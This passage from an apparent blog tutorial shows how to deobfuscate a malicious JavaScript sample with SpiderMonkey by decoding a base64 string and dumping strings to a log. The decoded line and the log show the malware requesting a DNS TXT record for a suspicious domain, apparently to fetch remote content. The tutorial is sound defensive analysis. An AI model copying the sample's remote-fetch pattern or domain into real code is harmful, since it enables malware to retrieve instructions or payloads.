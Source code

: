Lets run the script in the sandbox with SpiderMonkey.  

Here is the error message I received.

```
PS C:\Users\User\desktop\windows > .\js-file .\malicious.js
.\malicious.js:1: TypeError: window.atob is not a function
```

You will see errors like this with SpiderMonkey.  As we're not running the JavaScript in a browser, we need to modify the code a little bit.

Here is what `windows.atob` does [7]:
> Decode a base-64 encoded string

Lets replace line 1 of .\malicious.js with the decoded value of the string.

``` JavaScript
var v = "https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT";
```
Running the script again gives an error message about "XMLHttpRequest".  This is fine, we know that most of the script is running now.  There are no output or write.log to know what this script does.  

Beware at this point your VM may be infected.  Depending on what you're analyzing and whether the sandbox is connected to the internet or not, you may want to restart your Sandbox (from a clean snapshot).

Lets add some `document.write` to the script to figure out what the script is doing.  By adding these `document.write` and using SpiderMonkey, we can dump the obfuscated strings to 'write.log' file.  Using this method, we will be able to deobfuscate the script.

Here is some of the `document.write` that I added to the script (more specifically prior to the "XMLHttpRequest()" function):


``` JavaScript
document.write("XMLHttpRequest => "+ _0x58060d(_0x58f7('0xe')) + " " + (_0x58060d(_0x58f7('0xf')))  + " " + v  + " " + "\n");
document.write("_0x58060d(_0x58f7('0x10')): " +_0x58060d(_0x58f7('0x10'))+ "\n");
document.write("_0x58060d(_0x58f7('0x11')): " +_0x58060d(_0x58f7('0x11'))+ "\n");
document.write("_0x58060d(_0x58f7('0x12')): " +_0x58060d(_0x58f7('0x12'))+ "\n");
document.write("_0x58060d(_0x58f7('0x13')): " +_0x58060d(_0x58f7('0x13'))+ "\n");
document.write("_0x58060d(_0x58f7('0x14')): " +_0x58060d(_0x58f7('0x14'))+ "\n");
document.write("_0x58060d(_0x58f7('0x15')): " +_0x58060d(_0x58f7('0x15'))+ "\n");
document.write("_0x58f7('0x16')): " +(_0x58f7('0x16'))+ "\n");
document.write("_0x58060d(_0x58f7('0x17)): " +_0x58060d(_0x58f7('0x17'))+ "\n");
document.write("_0x58060d(_0x58f7('0x18')): " +_0x58060d(_0x58f7('0x18'))+ "\n");
document.write("_0x58060d(_0x58f7('0x19')): " +_0x58060d(_0x58f7('0x19'))+ "\n");
document.write("_0x58060d(_0x58f7('0x1a')): " +_0x58060d(_0x58f7('0x1a'))+ "\n");
document.write("_0x58f7('0x1b'): " + _0x58f7('0x1b')+ "\n");
document.write("_0x58f7('0x1c'): " + _0x58f7('0x1c')+ "\n");
document.write("_0x58060d(_0x58f7('0x1d')): " +_0x58060d(_0x58f7('0x1d'))+ "\n");
document.write("_0x58060d('0xd'): " + _0x58060d('0xd') );
```

Here is the partial content of write.log after running the script with SpiderMonkey:

```
XMLHttpRequest => open GET https://dns.google.com/resolve?name=fetch.slzxkcee.glamisbound.com&type=TXT
_0x58f7: Input: 16,undefined, output:0x2
_0x58060d: Input: 2,undefined, output:onreadystatechange
_0x58060d(_0x58f7('0x10')): onreadystatechange
_0x58f7: Input: 17,undefined, output:0x3
_0x58060d: Input: 3,undefined, output:status
_0x58060d(_0x58f7('0x11')): status
_0x58f7: Input: 18,undefined, output:0x4
_0x58060d: Input: 4,undefined, output:readyState
_0x58060d(_0x58f7('0x12')): readyState
_0x58f7: Input: 19,undefined, output:0x5
_0x58060d: Input: 5,undefined, output:parse
```

[1]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image1.png
[2]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image2.png
[3]: ./../../../assets/images/2019-06-16-HowToDeobfuscateJS/Image3.png